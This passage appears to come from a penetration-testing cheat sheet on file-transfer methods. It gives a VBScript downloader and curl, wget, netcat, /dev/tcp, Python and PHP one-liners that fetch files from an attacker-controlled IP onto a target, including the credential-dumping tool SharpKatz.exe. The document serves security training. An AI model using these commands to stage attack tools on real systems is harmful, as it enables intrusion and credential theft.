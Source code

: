 ```vbscript
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", WScript.Arguments.Item(0), False
xHttp.Send

with bStrm
    .type = 1
    .open
    .write xHttp.responseBody
    .savetofile WScript.Arguments.Item(1), 2
end with
```
```cmd-session
> cscript.exe /nologo wget.vbs https://address.to/script.ps1 script.ps1
```
# Linux Client
## cURL
```shell-session
$ curl http://<IP>[:<PORT>]/file -o <output-file>
```
## Wget
```shell-session
$ wget http://<IP>[:<PORT>]/file
```
### OpenSSL
```shell-session
$ openssl s_client -connect <IP>:<PORT> -quiet > file
```
## Netcat
On Linux:
```shell-session
$ ncat -l -p <PORT> --recv-only > SharpKatz.exe
```
From Kali:
```shell-session
$ nc --send-only 0 <IP> <PORT> < SharpKatz.exe
```
## /dev/tcp
```shell-session
$ cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe
```
## Python
```shell-session
$ python2.7 -c 'import urllib;urllib.urlretrieve ("https://address.to/file", "file")'
$ python3 -c 'import urllib.request; urllib.request.urlretrieve("https://address.to/file", "file")'
```
## PHP
```shell-session
get_contents & put_contents
$ php -r '$file = file_get_contents("https://address.to/file"); file_put_contents("file",$file);'

fopen() module
$ php -r 'const BUFFER = 1024; $fremote = 
fopen("https://address.to/file", "rb"); $flocal = fopen("file", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'
```
## Fileless Execution 